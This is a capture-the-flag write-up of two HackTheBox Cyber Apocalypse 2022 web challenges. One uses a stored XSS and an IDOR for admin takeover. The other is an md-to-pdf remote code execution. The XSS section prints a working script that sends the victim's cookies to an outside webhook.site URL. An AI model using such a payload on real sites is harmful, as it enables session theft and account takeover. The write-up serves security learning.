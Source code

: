 ## HackTheBox Cyber Apocalypse 2022 Intergalactic Chase

I’m back to HTB! This time with a new team, called HackinKaNalang. Despite of our busy schedule we manage to participate in this year Cyber Apocalypse CTF.

-------------------------------------------------------
#### Web
- [Web 300 : Kryptos Support ](#kryptos_support)
- [Web 300 : BlinkerFluids ](#blinkerfluids)

------------------------------------------------------
## Kryptos_Support
![](web1/1.png)

During my enumeration I got a field wherein you can submit via form, and another page which is a login portal. 

![](web1/11.png)

I submitted a test content and got this:

![](web1/2.png)

The response above gave me a hint of possible XSS attack. Which leads me to get an Admin Cookies/Session. I sent a crafted xss payload using https://webhook.site. 

```
<script>
document.write('<img src="https://webhook.site/4805b428-e4e9-4754-9ff1-74f3b03e040d?c='+document.cookie+'" />');
</script>
```

Now I have the session cookies. 

![](web1/3.png)

I installed a cookie editor to use the session that came from the results of my XSS attack.

![](web1/4.png)

Then redirected to the admin panel. I didn't find any field or upload files, just the ticket that I submitted.

![](web1/44.png)

Upon checking the links, I found a change password field. I tried to change the password of the current account, that's when I  noticed that the account I compromised is a moderator.

![](web1/5.png)

So I thought that maybe there is an Admin account for this application.
Next is enabling the inspect element functions of the browser to check some hidden fields, and that where I got the UID.

![](web1/6.png)

I decided to edit the value to 1 and supplied my chosen password and click submit, then I  received this message below

![](web1/7.png)

I login using admin and my chosen password and automatically redirected to Home Page with a Flag.

![](web1/flag.png)

Conclusion: The application is vulnerable to Persistent XSS and IDOR or known as Insicure Direct Object Reference.
------------------------------------------------------


------------------------------------------------------
## BlinkerFluids
![](web2/1.png)

The challenge contains of web app and a source code.
The page contains of markdown editor and after submission it convert the text to pdf.

Reviewing the source code and its node.js, basically checking the packages.json for possible vulnerable packages, that's where I  notice the md-to-pdf package.

![](web2/2.png)

Then I tried to searched for possible exploit and found RCE on snyk.io : https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

![](web2/22.png)

Which leads me to check to the github issues where I found an interesting comment.

![](web2/23.png)

I created a RCE code and supplied it to the markdown editor and I click submit.

![](web2/3.png)

Then, I created another markdown to check if the rce2.txt is created, and it listed all the files which the rce2.txt has been created.

![](web2/4.png)

I created a final markdown content to read the rce2.txt, then i got the flag.

![](web2/flag.png)

Conclusion: Package vulnerabilities helps me get the flag which highlighted the importance of source code review.
------------------------------------------------------